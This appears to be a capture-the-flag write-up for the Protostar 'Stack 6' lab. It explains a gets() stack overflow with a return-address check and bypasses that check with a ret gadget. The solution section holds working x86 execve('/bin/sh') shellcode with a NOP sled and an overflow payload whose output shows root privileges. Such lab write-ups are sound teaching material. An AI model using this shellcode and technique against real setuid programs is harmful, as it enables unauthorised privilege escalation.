 # Protostar - Stack 6

### About ###

>Stack6 looks at what happens when you have restrictions on the return address.
>
>This level can be done in a couple of ways, such as finding the duplicate of the payload (objdump -s) will help with this), or ret2libc, or even return orientated programming.
>
>It is strongly suggested you experiment with multiple ways of getting your code to execute here.
>
>This level is at `/opt/protostar/bin/stack6`


### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

### Solution 

This challenge is an introduction to the concepts of *Return Oriented Programming* or ROP, we won't be able to execute directly the code injected in the stack, because its address will begin with `0xbfxxxxxx`.
We have to use code already available in another section of the program, such as `.text`, to launch our exploit.

ROP is based on the use of gadgets. Gadgets are sequences of instructions usually ending with the instruction `ret`. Since `ret` jumps to the value located at the top of the stack, it is possible to chain gadgets together in order to exploit a vulnerable process. More information can be found [here](https://www.blackhat.com/presentations/bh-usa-08/Shacham/BH_US_08_Shacham_Return_Oriented_Programming.pdf) [1].

ROP is usually used to bypass software protections such as ASLR or DEP. But in our case, we will use it to bypass the verification on the return address. Instead of the address of our shellcode, we will overwrite `eip` with the address of another `ret` instruction, followed by the address of our shellcode.

To find another instruction `ret` we can use `objdump` and pick the first one for example.

```
user@protostar:/tmp$ objdump -d /opt/protostar/bin/stack6 | grep ret
 804835f:      	c3                     	ret
 8048454:      	c3                     	ret
 8048482:      	c3                     	ret
 80484f9:      	c3                     	ret
 8048508:      	c3                     	ret
 8048514:      	c3                     	ret
 8048579:      	c3                     	ret
 804857d:      	c3                     	ret
 80485a9:      	c3                     	ret
 80485c7:      	c3                     	ret
```
Our shellcode will still be located in an environment variable.

```
user@protostar:/tmp$ export SHELLCODE=$(python -c "print '\x90'*200+'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'")
user@protostar:/tmp$ ./getenv SHELLCODE
0xbffff8b8
```

Finally, the execution will be as follows:

 * `ret`, the last instruction of the function `main`, is executed and moves the address of another instruction `ret` into `eip`. Since this instruction is not on the stack, its address does not begin with `0xbfxxxxxx`.
 * The second `ret` is executed and moves the address of the shellcode into `eip`.
 * The shellcode is executed and we have the privileges of root.

```
user@protostar:/tmp$ (python -c "print 'A'*$((80))+'\x5f\x83\x04\x08\xb8\xf8\xff\xbf'"; cat;) | /opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA_AAAAAAAAAAAA_����
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```
 
**References**

 * [1] Return-oriented Programming:
Exploitation without Code Injection, [https://www.blackhat.com/presentations/bh-usa-08/Shacham/BH_US_08_Shacham_Return_Oriented_Programming.pdf](https://www.blackhat.com/presentations/bh-usa-08/Shacham/BH_US_08_Shacham_Return_Oriented_Programming.pdf)
